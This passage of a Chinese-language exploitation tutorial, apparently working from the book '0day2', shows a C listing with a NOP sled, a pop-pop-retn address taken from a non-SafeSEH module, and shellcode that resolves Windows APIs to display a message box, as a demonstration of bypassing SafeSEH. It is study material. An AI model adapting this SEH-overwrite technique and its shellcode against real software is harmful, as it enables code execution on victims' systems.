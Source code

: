 ![](Image/3.png)

到这里已经准备好了未启用SafeSEH的模块

接下来就来分析一下《0day2》上的代码
```
#include "stdafx.h"
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x12\x10\x12\x11"//address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
```